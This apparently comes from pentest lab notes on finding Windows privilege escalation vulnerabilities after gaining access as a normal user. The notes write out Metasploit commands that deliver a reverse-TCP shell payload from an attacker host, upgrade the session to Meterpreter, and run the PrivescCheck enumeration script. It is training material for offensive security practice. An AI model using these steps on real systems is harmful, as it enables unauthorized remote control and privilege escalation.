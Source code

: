 # Windows: Identifying Privilege Escalation Vulnerabilities
> The assumption here is that you have gained access to a Windows system, but you do not have elevated privileges (you do not have NT AUTHORITY or SYSTEM). You have gained access as a normal user or via a service account.

## Contents
- [Intro](#intro)
  - [Identifying PrivEsc Vulnerabilities](#identifying-privesc-vulnerabilities)
  - [Script: PrivescCheck](#script-privesccheck)
- [Techniques & Tools](#techniques--tools)
  - [MetaSploit Module: web_delivery](#metasploit-module-web_delivery)
  - [Migrate to Meterpreter](#migrate-to-meterpreter)
  - [Execute PrivescCheck](#execute-privesccheck)

## Intro

### Identifying PrivEsc Vulnerabilities
- In order to elevate your privileges in Windows, you must first identify privilege escalation vulnerabilities on the target system.
- This process will differ greatly based on the type of target you gain access to.
  - Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system's unique configuration.
- This process can be quite tedious and time consuming.
  - As a result it is recommended to automate this process of identifying privilege escalation vulnerabilities.
  - This can be done through the use of various automation scripts. One of the best is PrivescCheck...

### Script: PrivescCheck
- [PrivescCheck](https://github.com/itm4n/PrivescCheck): this script aims to enumerate common Windows configuration issues that can be leveraged for local privilege esclation.
  - It also gathers various information that might be useful for exploitation and/or post-exploitation.
- It also gathers various information that might be useful for exploitation and/or post-exploitation.
  - Description: This script aims to identify Local Privilege Escalation (LPE) vulnerabilities that are usually due to Windows configuration issues, or bad practices. It can also gather useful information for some exploitation and post-exploitation tasks.

## Techniques & Tools
> The following is from a lab. It should give you the general contect and process of using the technique with the tools.

### MetaSploit Module: [web_delivery](https://www.offsec.com/metasploit-unleashed/web-delivery/)
> This is a module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine.
>
> This module spins up a web server that hosts a payload (based on the target operating system). When you hit run/exploit, it generates some PowerShell code. You copy that PowerShell code and execute it on the target machine. When you run that code on the target, it will download the payload and execute the exploit.
```
> use exploit/multi/script/web_delivery
> show info  # To see what it does
> set target PSH\ (Binary)
> set payload windows/shell/reverse_tcp
> set PSH-EncodedCommand false  # we do not want the ps script encoded
> set LHOST [attack ip or eth#]
> exploit
```
- Copy all the code it spits out.
  - Go to the target system and open a command prompt session (cmd.exe)
  - Right-click in the cmd window and that will paste in your script.
  - Hit ENTER
- Back into your Kali attack machine. You should have a command shell.
- We have access via the user "student."
  - Confirm that with `whoami`
  - Verify the hostname with `hostname`

### Migrate to Meterpreter
- Migrate your command shell you just obtained to a meterpreter session.
```
ctrl + z   # to background the session; still in msfconsole...
> search shell_to
> use post/multi/manage/shell_to_meterpreter
> set LHOST [attack ip]
> set SESSION [meterpreter session #]
> show advanced
  # We need to change the WIN_TRANSFER option
  # Instead of the transfer method being PowerShell, we want VisualBasic (VBS)
> set WIN_TRANSFER VBS
> run/exploit
```
- Go into your meterpreter session. Migrate to a 64-bit process (explorer.exe)
- cd over to the PrivescCheck subdir...
- Open a command shell session in this subdir: `> shell`

### Execute PrivescCheck
- Head over to the [PrivescCheck GitHub repo](https://github.com/itm4n/PrivescCheck) and read how to use it. Copy it.
- You want to copy that entire script and paste it into the shell prompt you just got from meterpreter.
- ENTER to execute it.
- Once it is finished, it will give you a summary at the bottom.
  - Scroll back up to the top and analyze the results...
  - You get a list of the groups on the system
  - As you work through the list, under each is an indicator if there is a vulnerability or not...
